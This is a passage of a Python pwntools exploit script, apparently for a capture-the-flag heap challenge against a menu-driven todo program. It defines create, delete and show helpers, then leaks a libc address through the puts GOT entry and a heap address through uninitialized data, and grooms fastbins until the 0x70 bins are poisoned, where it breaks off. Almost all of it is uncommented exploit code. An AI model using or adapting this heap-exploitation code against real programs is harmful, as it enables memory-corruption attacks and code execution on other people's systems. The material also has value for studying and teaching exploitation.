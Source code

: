 ```python  
	sh.sendline("2")  
	sh.recvuntil("topic: ")  
	sh.sendline(topic)  
	sh.recvuntil("length: ")  
	sh.sendline(str(data_len))  
	sh.recvuntil("Desc: ")  
	sh.sendline(data)  
	sh.recvuntil("> ")

def delete(topic):  
	sh.sendline("3")  
	sh.recvuntil("topic: ")  
	sh.sendline(topic)  
	sh.recvuntil("> ")

def show(topic):  
	sh.sendline("4")  
	sh.recvuntil(topic + " - ")  
	ret = sh.recvuntil('\n')  
	sh.recvuntil("> ")  
	return ret[:-1]  
payload = 'A' * 8 + p64(p.got["puts"])  
create(payload)  
delete(payload)  
#now 0x20 * 2

unitialzed_todo = "unitialized data".ljust(0x30, '_')  
create("consume 0x20".ljust(0x30, '_'))  
create(unitialzed_todo)  
libc_addr = u64(show(unitialzed_todo)[:6] + '\x00\x00') - e.symbols["puts"]  
print hex(libc_addr)

#bins empty

leak_todo = "leak".ljust(0x60, '_')  
create(leak_todo)  
set_data(leak_todo, 'A', 0x60)  
delete(leak_todo)  
create("leak")

heap_addr = u64(show("leak").ljust(8, '\x00')) - 0x10f0  
print hex(heap_addr)

#now 0x70 *2

for i in xrange(3):  
	create("tmp".ljust(0x60, str(i)))  
for i in [1,0,2]:  
	delete("tmp".ljust(0x60, str(i)))

#now 0x20 * 3 + 0x70 * 3

payload = 'A' * 8 + p64(heap_addr + 0x1170)

create(payload)  
delete(payload)

unitialzed_todo = "unitialized data 2".ljust(0x30, '_')  
create("consume 0x20".ljust(0x30, '_'))  
create(unitialzed_todo)

set_data(unitialzed_todo, 'A', 0x10)  
# now 0x70 are poisoned and all others are empty
```